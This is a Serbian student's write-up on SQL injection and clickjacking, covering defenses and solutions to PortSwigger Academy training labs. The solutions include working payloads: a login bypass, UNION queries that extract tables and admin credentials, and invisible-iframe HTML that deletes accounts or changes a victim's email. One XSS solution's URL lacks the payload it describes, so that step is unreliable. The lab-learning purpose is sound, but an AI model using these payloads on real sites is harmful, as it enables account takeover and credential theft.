



# Analiza odbrane - SQL Injection i Clickjacking
# Milos Milosavljevic SV80/2022
# Za Clickajcking su uradjena 3 zelena i 2 plava laba, ali za aql injection 1 zeleni i 4 plava sto daje 4 zelena i 6 plavih labova
---

## 1. SQL Injection

### Opis napada

SQL injection je napad u kome napadač ubacuje maliciozni SQL kod kroz korisnički unos koji aplikacija direktno ugrađuje u SQL upit. Ako aplikacija ne validira i ne sanitizuje unos, baza podataka izvršava napadačev kod kao da je deo legitimnog upita.

Primer - aplikacija pravi ovakav upit:
```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```
Ako napadač unese `' OR '1'='1` kao korisničko ime, upit postaje:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = ''
```
Uslov `'1'='1'` je uvek tačan, pa napadač dobija pristup bez lozinke.

Postoji više varijanti SQL injekcije:
- **In-band** - rezultat se vidi direktno u odgovoru aplikacije (najčešća)
- **Blind boolean-based** - aplikacija ne vraća podatke, ali napadač može da zaključuje na osnovu toga da li odgovor menja ponašanje (npr. stranica se učitava ili ne)
- **Blind time-based** - napadač ubacuje `SLEEP()` komande i meri vreme odgovora
- **Out-of-band** - podaci se eksfiltruju kroz DNS ili HTTP zahteve ka napadačevom serveru

### Uticaj

SQL injection može imati katastrofalne posledice:
- Čitanje svih podataka iz baze (korisnički podaci, lozinke, podaci o plaćanju)
- Zaobilaženje autentikacije (login bez lozinke)
- Izmena ili brisanje podataka
- U nekim konfiguracijama izvršavanje OS komandi na serveru (`xp_cmdshell` na MSSQL)
- Eksfiltracija podataka iz drugih tabela kroz `UNION` napade

### Ranjivosti koje omogućavaju napad

- Direktna konkatenacija korisničkog unosa u SQL upit
- Nedovoljna ili nepostojeća validacija unosa
- Prevelike privilegije DB naloga koji aplikacija koristi
- Verbose greške koje otkrivaju strukturu baze (nazive tabela, kolona, tip baze)

### Kontramere

**Parametrizovani upiti (prepared statements)** - najvažnija odbrana. Umesto konkatenacije, parametar se šalje odvojeno i baza ga tretira isključivo kao podatak, nikad kao kod:
```python
# Ranjivo
query = "SELECT * FROM users WHERE username = '" + username + "'"

# Bezbedno
cursor.execute("SELECT * FROM users WHERE username = ?", (username,))
```

**ORM (Object-Relational Mapping)** - frameworks poput SQLAlchemy, Hibernate ili Django ORM interno koriste parametrizovane upite i dodatno smanjuju šansu za grešku.

**Validacija i sanitizacija unosa** - whitelist validacija (dozvoliti samo očekivane karaktere i formate), nikad ne oslanjati se samo na ovo kao jedinu odbranu.

**Princip minimalnih privilegija** - DB nalog koji aplikacija koristi treba da ima samo SELECT/INSERT/UPDATE privilegije na tabelama koje su mu potrebne, bez DROP, ALTER, EXEC i slično. Na taj način čak i uspešan napad ima ograničen domet.

**Generičke greške** - aplikacija ne sme da prikazuje SQL greške korisniku. Stack trace i nazivi tabela napadaču daju precizne informacije za dalji napad.

**WAF (Web Application Firewall)** - može da detektuje i blokira poznate SQL injection payloade, ali nije pouzdana jedina odbrana jer se može zaobići.

---

## 2. Clickjacking

### Opis napada

Clickjacking (UI redressing) je napad u kome napadač prevari korisnika da klikne na nešto što korisnik ne vidi, a misli da klikće na nešto drugo. Tehnički se izvodi tako što napadač učita legitimnu stranicu (npr. Facebook, banka, web shop) u nevidljivi `<iframe>` i postavi ga preko svoje stranice. Korisnik misli da klikće na napadačevu stranicu, a zapravo klikće na skriveni iframe legitimne stranice.

Primer:
```html
<style>
  iframe {
    position: absolute;
    opacity: 0.0; /* iframe je nevidljiv */
    width: 700px;
    height: 500px;
    z-index: 2;
  }
  .decoy {
    position: absolute;
    z-index: 1;
  }
</style>

<div class="decoy">Klikni ovde da osvoji nagradu!</div>
<iframe src="https://banka.com/transfer?amount=1000&to=napadac"></iframe>
```

Korisnik vidi dugme "Klikni ovde da osvoji nagradu", ali zapravo klikće na dugme za transfer novca na stranici banke koja je učitana u skrivenom iframeu - i taj klik se izvršava u kontekstu korisnikove sesije.

Postoje i varijante:
- **Likejacking** - korisnik nesvesno lajkuje stranicu na društvenim mrežama
- **Cursorjacking** - prikaz lažnog kursora na drugoj poziciji od stvarnog
- **Višekoračni clickjacking** - napadač vodi korisnika kroz više klikova da bi izvršio složeniju akciju

### Uticaj

- Neovlašćeno izvršavanje akcija u ime korisnika (transfer novca, promena email-a ili lozinke, brisanje naloga)
- Lajkovanje ili deljenje sadržaja bez znanja korisnika
- Preuzimanje naloga ako napadač može da navede korisnika da promeni email ili lozinku
- Kombinovan sa XSS-om može biti znatno opasniji

### Ranjivosti koje omogućavaju napad

- Aplikacija dozvoljava učitavanje svojih stranica u `<iframe>` sa eksternih domena
- Nedostatak `X-Frame-Options` ili `Content-Security-Policy: frame-ancestors` headera
- Akcije koje se izvršavaju čistim GET ili POST zahtevom bez dodatne potvrde

### Kontramere

**X-Frame-Options header** - najstarija i najjednostavnija odbrana. Govori browseru da li sme stranica da se učita u iframe:
```
X-Frame-Options: DENY          # nikad ne dozvoliti iframe
X-Frame-Options: SAMEORIGIN    # dozvoliti samo sa istog domena
```

**Content-Security-Policy: frame-ancestors** - modernija i fleksibilnija zamena za X-Frame-Options:
```
Content-Security-Policy: frame-ancestors 'none';         # ekvivalent DENY
Content-Security-Policy: frame-ancestors 'self';         # ekvivalent SAMEORIGIN
Content-Security-Policy: frame-ancestors trusted.com;    # samo određeni domen
```
Preporučuje se koristiti oba headera za maksimalnu kompatibilnost sa starijim browserima.

**Framebusting JavaScript** - stariji pristup, pre nego što su headeri postali standard. Stranica u JavaScriptu proverava da li je učitana u iframeu i ako jeste, redirect-uje na sebe:
```javascript
if (top !== self) {
    top.location = self.location;
}
```
Ovo nije pouzdana odbrana jer napadač može da blokira JS u iframeu atributima poput `sandbox="allow-forms"`, pa se ne treba oslanjati samo na ovo.

**CSRF tokeni** - ne sprečavaju direktno clickjacking, ali ako akcija zahteva validan CSRF token koji se ne može predvideti, napadač ne može da konstruiše ispravan zahtev samo kroz klikove.

**Potvrda osetljivih akcija** - zahtevati korisnika da ponovo unese lozinku ili potvrdi akciju pre izvršavanja (npr. pre transfera novca), što čini clickjacking napade znatno težim za izvođenje.

---

## Smernice za labove

### SQL Injection labovi

**Zeleni (Apprentice):**

1. **SQL injection vulnerability allowing login bypass** - REŠENO

**Opis:** Login forma je ranjiva na SQL injection u polju za korisničko ime. Cilj je ulogovati se kao `administrator` bez poznavanja lozinke.

**Ranjivost:** Aplikacija direktno ugrađuje korisničkov unos u SQL upit bez parametrizacije:
```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```
Ubacivanjem `'--` u username polje, ostatak upita (provera lozinke) se komentariše i nikad ne izvršava.

**Rešenje:**

U login formu direktno uneto:
- Username: `administrator'--`
- Password: bilo šta (npr. `test123`)

SQL upit koji aplikacija izvršava postaje:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'test123'
```
Sve iza `--` je komentar, pa se provera lozinke preskače. Aplikacija pronađe korisnika `administrator` i prijavi ga bez provere lozinke.




**Plavi (Practitioner):**

2. **SQL injection attack, querying the database type and version on Oracle** - REŠENO

**Opis:** Web shop ima filter po kategorijama proizvoda koji je ranjiv na SQL injection u `category` URL parametru. Cilj je izvući verziju Oracle baze podataka kroz UNION napad.

**Ranjivost:** Aplikacija direktno ugrađuje vrednost `category` parametra u SQL upit bez sanitizacije. UNION napad omogućava dodavanje dodatnog SELECT upita koji vraća podatke iz druge tabele.

**Rešenje:**

Payload unesen direktno u URL:
```
https://0a92003a033812c480174929006e004d.web-security-academy.net/filter?category='+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

SQL upit koji aplikacija izvršava postaje:
```sql
SELECT * FROM products WHERE category = '' UNION SELECT BANNER, NULL FROM v$version--'
```

`v$version` je Oracle sistemska tabela koja sadrži informacije o verziji baze. Rezultat na stranici:
- `CORE 11.2.0.2.0 Production`
- `NLSRTL Version 11.2.0.2.0 - Production`
- `Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production`
- `PL/SQL Release 11.2.0.2.0 - Production`
- `TNS for Linux: Version 11.2.0.2.0 - Production`

**Napomena:** Na Oracle bazama svaki SELECT mora imati FROM, pa se koristi ili `FROM dual` za literal vrednosti ili sistemske tabele poput `v$version`. Komentar je `--` kao i na ostalim bazama.

3. **SQL injection attack, querying the database type and version on MySQL and Microsoft** - REŠENO

**Opis:** Isti tip napada kao prethodni lab — UNION napad kroz `category` parametar, ali sada na MySQL/Microsoft bazi. Cilj je prikazati verziju baze.

**Ranjivost:** Ista kao u prethodnom labu — direktno ugrađivanje korisničkog unosa u SQL upit bez sanitizacije.

**Rešenje:**

Payload unesen u URL:
```
https://0a5d007b046a3ba8808471c800f10072.web-security-academy.net/filter?category=%27+UNION+SELECT+@@version,+NULL--+
```

SQL upit koji aplikacija izvršava postaje:
```sql
SELECT * FROM products WHERE category = '' UNION SELECT @@version, NULL-- '
```

`@@version` je MySQL/Microsoft sistemska varijabla koja vraća verziju baze. Rezultat na stranici: `8.0.42-0ubuntu0.20.04.1`

**Razlike u odnosu na Oracle lab:**

| | Oracle | MySQL/Microsoft |
|---|---|---|
| Komentar | `--` | `--+` ili `%23` (`#`) |
| Verzija baze | `SELECT BANNER FROM v$version` | `SELECT @@version` |
| Dummy tabela | `FROM dual` obavezno | nije potrebno |

**Napomena:** `#` se ne sme koristiti direktno u URL-u jer ga browser interpretira kao fragment stranice i ne šalje serveru. Umesto toga koristi `--+` ili URL-enkodiranu verziju `%23`.

4. **SQL injection attack, listing the database contents on non-Oracle databases** - REŠENO

**Opis:** Kompleksniji UNION napad — cilj je pronaći naziv tabele i kolona koje sadrže kredencijale korisnika, izvući lozinku administratora i ulogovati se. Nazivi tabela i kolona su nasumično generisani pa se moraju otkriti kroz `information_schema`.

**Ranjivost:** Ista kao u prethodnim labovima — nesanitizovan `category` parametar. Dodatno, aplikacija izlaže strukturu baze kroz `information_schema` koji je dostupan na svim non-Oracle bazama.

**Rešenje — koraci:**

**Korak 1** — Provjera broja i tipa kolona:
```
/filter?category='+UNION+SELECT+'abc','def'--
```
Potvrđeno da upit vraća 2 string kolone.

**Korak 2** — Listanje tabela iz `information_schema`:
```
/filter?category='+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
Pronađena tabela: `users_brcswn`

**Korak 3** — Listanje kolona pronađene tabele:
```
/filter?category='+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_brcswn'--
```
Pronađene kolone: `username_ieaitb` i `password_uuifsz`

**Korak 4** — Izvlačenje svih korisnika i lozinki:
```
https://0a010015036dd04c845100f200d3005c.web-security-academy.net/filter?category=%27+UNION+SELECT+username_ieaitb,+password_uuifsz+FROM+users_brcswn--
```
Na stranici se pojavljuju korisnici sa lozinkama. Pronađena lozinka za `administrator` i korišćena za login kroz "My account".


*Screenshot prikazuje pristup bazi podataka sa prikazanim username i lozinkama

5. **SQL injection attack, listing the database contents on Oracle** - REŠENO

**Opis:** Identičan prethodnom labu ali na Oracle bazi. Razlika je u sintaksi — Oracle koristi `all_tables` i `all_tab_columns` umesto `information_schema`, i svaki SELECT mora imati `FROM`.

**Ranjivost:** Ista kao u prethodnim labovima — nesanitizovan `category` parametar.

**Rešenje — koraci:**

**Korak 1** — Provjera kolona (Oracle zahteva `FROM dual`):
```
/filter?category='+UNION+SELECT+'abc','def'+FROM+dual--
```

**Korak 2** — Listanje tabela (`all_tables` umesto `information_schema.tables`):
```
/filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
Pronađena tabela: `USERS_JTXLLH`

**Korak 3** — Listanje kolona (`all_tab_columns` umesto `information_schema.columns`):
```
/filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_JTXLLH'--
```
Pronađene kolone: `USERNAME_UCYSVK` i `PASSWORD_VZFJIO`

**Korak 4** — Izvlačenje kredencijala:
```
https://0ab500a404a74d10812b84d7000700db.web-security-academy.net/filter?category=%27+UNION+SELECT+USERNAME_UCYSVK,+PASSWORD_VZFJIO+FROM+USERS_JTXLLH--
```
Pronađena lozinka za `administrator` i korišćena za login.

**Razlike Oracle vs non-Oracle:**

| | Non-Oracle | Oracle |
|---|---|---|
| Lista tabela | `information_schema.tables` | `all_tables` |
| Lista kolona | `information_schema.columns` | `all_tab_columns` |
| Dummy tabela | nije potrebna | `FROM dual` obavezno |
| Nazivi tabela | mala slova | VELIKA SLOVA |

Za plave labove Burp Suite je skoro obavezan - koristi **Repeater** da modifikuješ zahteve i vidiš odgovore bez ponovnog učitavanja stranice u browseru.

---

### Clickjacking labovi

Preporučeni redosled:

**Zeleni (Apprentice):**

1. **Basic clickjacking with CSRF token protection** - REŠENO

**Opis:** Aplikacija ima CSRF zaštitu ali nema `X-Frame-Options` ni `frame-ancestors` header, što znači da se može učitati u iframe sa eksternog domena. Cilj je navesti žrtvu da klikne na "Delete account" dugme, a da misli da klikće na lažni element.

**Ranjivost:** Odsustvo `X-Frame-Options` headera dozvoljava učitavanje stranice u iframe. CSRF token ovde ne pomaže jer napad ne falsifikuje zahtev — korisnik sam klikće na legitimnu stranicu, samo ne zna to.

**Rešenje:**

Na exploit serveru u Body polje uneto je:
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 500px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0adc000a044c9da180b70392007c00c4.web-security-academy.net/my-account"></iframe>
```

Iframe učitava `/my-account` stranicu žrtve sa `opacity: 0.0001` (praktično nevidljiv). Div element sa tekstom "Click me" pozicioniran je tačno iznad "Delete account" dugmeta pomoću `top: 500px` i `left: 60px`. Kada žrtva klikne na "Click me", zapravo klikće na "Delete account" u skrivenom iframeu i njen nalog se briše.

**Napomena:** Iframe prikazuje login stranicu kada napadač testira exploit jer napadač nema sesiju žrtve. To je normalno — žrtva ima svoju aktivnu sesiju i njen browser će ispravno učitati `/my-account`. Exploit se isporučuje žrtvi kroz "Deliver exploit to victim" bez testiranja iframea.

**Zeleni (Apprentice):**

2. **Clickjacking with form input data prefilled from a URL parameter** - REŠENO

**Opis:** Ovaj lab proširuje osnovni clickjacking napad. Cilj nije brisanje naloga već promena email adrese žrtve. Aplikacija dozvoljava prepopulaciju email polja kroz URL parametar `?email=`, što napadač koristi da unapred popuni formu sa svojom email adresom pre nego što žrtva klikne.

**Ranjivost:** Ista kao u prvom labu — odsustvo `X-Frame-Options` headera. Dodatna ranjivost je što aplikacija prihvata vrednosti forme kroz GET parametar u URL-u, što napadaču omogućava da kontroliše sadržaj forme bez ikakve interakcije žrtve sa tastaturom.

**Rešenje:**

Na exploit serveru u Body polje uneto je:
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 480px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a7e007c0497f17e80bc0dcf005d002f.web-security-academy.net/my-account?email=hacker@attacker.com"></iframe>
```

URL parametar `?email=hacker@attacker.com` automatski popunjava email polje u formi. Iframe je nevidljiv (`opacity: 0.0001`), a "Click me" element pozicioniran je tačno iznad "Update email" dugmeta (`top: 480px`, `left: 80px`). Kada žrtva klikne na "Click me", njena email adresa se menja na `hacker@attacker.com`.

**Napomena:** Email adresa u URL-u ne sme biti ista kao email adresa bilo kog postojećeg korisnika, jer aplikacija to odbija.

**Zeleni (Apprentice):**

3. **Clickjacking with a frame buster script** - REŠENO

**Opis:** Aplikacija ima JavaScript frame buster skriptu koja detektuje kada je stranica učitana u iframe i pokušava da je izbaci iz njega redirect-om. Cilj je zaobići ovu odbranu i izvesti isti napad kao u prethodnom labu — promena email adrese žrtve.

**Ranjivost:** Frame buster skripta se oslanja na JavaScript. HTML5 `sandbox` atribut na iframeu može da zabrani izvršavanje JavaScripta unutar iframea, ali da pritom dozvoli form submission. Na taj način skripta se nikad ne pokrene, a forma i dalje radi normalno.

**Rešenje:**

Jedina razlika u odnosu na prethodni lab je `sandbox="allow-forms"` atribut na iframeu:
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 445px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a69004a034237dd8211657e005400c8.web-security-academy.net/my-account?email=hacker2@attacker.com"></iframe>
```

`sandbox="allow-forms"` dozvoljava slanje forme ali blokira JavaScript, čime se frame buster skripta neutrališe. URL parametar `?email=hacker2@attacker.com` prepopunjava email polje, a "Click me" element pozicioniran je iznad "Update email" dugmeta (`top: 445px`, `left: 80px`).

**Napomena:** Email mora biti drugačiji od emaila korišćenog u prethodnim labovima jer aplikacija ne dozvoljava registraciju već zauzetog emaila.

**Plavi (Practitioner):**

4. **Exploiting clickjacking vulnerability to trigger DOM-based XSS** - REŠENO


**Opis:** Kombinovani napad — clickjacking se koristi da žrtva nesvesno klikne "Submit feedback" dugme, što okida DOM-based XSS ranjivost u polju `name`. Za razliku od prethodnih labova, cilj nije izmena podataka naloga već izvršavanje JavaScript koda (`print()` funkcija) u kontekstu žrtvinog browsera.

**Ranjivost:** Feedback forma na `/feedback` stranici ubacuje vrednost `name` parametra direktno u DOM bez sanitizacije. URL parametri se koriste da prepopulaju sva polja forme uključujući i maliciozni XSS payload u `name` polju. Odsustvo `X-Frame-Options` headera dozvoljava učitavanje stranice u iframe.

**Rešenje:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 410px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae400b904521c5a8044030100d10035.web-security-academy.net/feedback?name=&email=hacker@attacker.com&subject=test&message=test#feedbackResult"></iframe>
```

URL parametar `?name=` ubacuje XSS payload u polje za ime. Kada žrtva klikne "Click me" (pozicionirano iznad "Submit feedback" dugmeta na `top: 410px`, `left: 80px`), forma se submituje, payload se ubacuje u DOM i `print()` funkcija se izvršava.

**Razlika u odnosu na prethodne labove:** Ovde se može testirati exploit na sebi jer nema opasnosti od brisanja naloga ili promene email adrese — klik na "Test me" otvara print dijalog kao potvrda da exploit radi.



*Screenshot prikazuje poluvidljivi iframe sa feedback formom i "Click me" element pozicioniran tačno iznad "Submit feedback" dugmeta.*

**Plavi (Practitioner):**

5. **Multistep clickjacking** - REŠENO

**Opis:** Aplikacija ima i CSRF zaštitu i confirmation dialog pre brisanja naloga. Napad zahteva dva klika od žrtve — prvi na "Delete account", drugi na "Yes" u confirmation dialogu. Exploit mora imati dva precizno pozicionirana elementa.

**Ranjivost:** Odsustvo `X-Frame-Options` headera i dalje dozvoljava učitavanje stranice u iframe. CSRF token ne pomaže jer žrtva sama klikće kroz legitimnu sesiju. Confirmation dialog samo dodaje još jedan korak koji napadač mora da planira unapred.

**Rešenje:**

```html
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    .firstClick, .secondClick {
        position: absolute;
        top: 500px;
        left: 50px;
        z-index: 1;
    }
    .secondClick {
        top: 305px;
        left: 200px;
    }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0af50032030c916a80de3af70031009e.web-security-academy.net/my-account"></iframe>
```

Dva div elementa su pozicionirana nezavisno. `firstClick` (`top: 500px`, `left: 50px`) je iznad "Delete account" dugmeta. `secondClick` (`top: 305px`, `left: 200px`) je iznad "Yes" dugmeta na confirmation dialogu koji se pojavljuje nakon prvog klika.

**Testiranje:** Za razliku od ostalih labova, testiranje zahteva dva koraka — klikni "Test me first" da se otvori confirmation dialog, pa tek onda provjeri da li je "Test me next" iznad "Yes" dugmeta.

Za clickjacking labove nije potreban Burp Suite - dovoljno je pisati HTML/CSS direktno u exploit serveru koji ti lab daje. Ključna stvar je precizno pozicioniranje iframe-a i lažnih elemenata pomoću `position: absolute` i podešavanjem `top`, `left` vrednosti, kao i podešavanje `opacity` iframe-a na vrednost blizu 0 (npr. `0.1` dok testiraš da vidiš gde je, pa na `0.0001` za finalno rešenje).
